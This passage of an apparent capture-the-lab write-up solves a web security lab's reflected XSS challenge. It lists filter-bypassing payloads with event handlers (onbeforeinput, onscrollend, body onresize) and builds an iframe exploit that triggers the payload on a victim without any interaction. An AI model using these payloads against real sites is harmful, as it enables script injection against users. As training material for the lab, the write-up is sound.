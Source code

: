 
The information in the cheatsheet from these attributes is:

![image](https://github.com/user-attachments/assets/4cf0c932-fc89-42cf-ba32-66da4ef9b03a)


So we have 3 possible payloads, because as "audio" and “video” tags are not available we can not use "onratechange":

```

<xss contenteditable onbeforeinput=alert(1)>test
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>
<body onresize="print()">

```

Regarding the **"onscrollend"** payload, I updated it because it can not use **“br”** or **“span”**. However, it is necessary to scroll to the top or the bottom to see the alert pop:

```

<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><h2>a</h2><h3 id=x>test</h3></h3>

```


Regarding the “onbeforeinput” payload, it is necessary to click the text and update it for the alert to pop:

```
<xss contenteditable onbeforeinput=alert(1)>test</xss>

```
The third one is valid but it needs the user to change the size of the tab:

```
<body onresize="print()">

```

![image](https://github.com/user-attachments/assets/d72d82a5-9e87-400e-923b-33ab7057ec6e)

We will send this last one inside an iframe:

https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E

`?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload=body.style.width='100%`

In order to solve the lab, there must not be user interaction to trigger the payload since it is sent to victim.
  The print command needs to be performed automatically without any user interaction. Therefore I need a way to enforce the resize event without requiring the victim to do it.So I include `onload=this.style.width='100px'` to automatically resize the page when it loads . This willl now trigger an XSS .
  